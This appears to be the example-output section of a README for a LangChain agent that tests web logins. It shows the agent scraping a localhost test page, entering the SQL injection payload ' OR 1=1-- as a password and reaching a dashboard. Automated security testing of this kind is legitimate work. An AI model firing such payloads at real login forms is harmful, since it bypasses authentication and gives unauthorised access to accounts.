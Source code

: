 ## 📊 Example Output

```
🎯 Target URL: http://localhost:8080/login
🚀 Starting vulnerability assessment...
🌐 Initializing browser session...
🤖 Creating LangChain agent...
🔍 Running vulnerability assessment...

> Entering new AgentExecutor chain...
I need to test this login page for SQL injection vulnerabilities. Let me start by scraping the page to understand its structure.

Action: scrape_page
Action Input: {}

Observation: === PAGE CONTENT ===
Login Page

Username:

Password:

Login

Valid credentials: admin/secret123 or user/password

=== FORMS DETECTED ===
Form 1: 2 inputs
  - text input: username (selector: input[name='username'])
  - password input: password (selector: input[name='password'])

=== BUTTONS DETECTED ===
Button: 'Login' (selector: input[type='submit'])

Now I can see there's a login form with username and password fields. Let me attempt SQL injection by entering "admin" as username and "' OR 1=1--" as password.

Action: input_textbox
Action Input: {"selector": "input[name='username']", "text": "admin"}

Observation: Successfully typed 'admin' into element with selector 'input[name='username']'

Action: input_textbox
Action Input: {"selector": "input[name='password']", "text": "' OR 1=1--"}

Observation: Successfully typed '' OR 1=1--' into element with selector 'input[name='password']'

Now let me submit the form by clicking the login button.

Action: click_button
Action Input: {"selector": "input[type='submit']"}

Observation: Successfully clicked element with selector 'input[type='submit']'

Let me scrape the page again to see if the login was successful and authentication was bypassed.

Action: scrape_page
Action Input: {}

Observation: === PAGE CONTENT ===
Welcome to the Dashboard!

```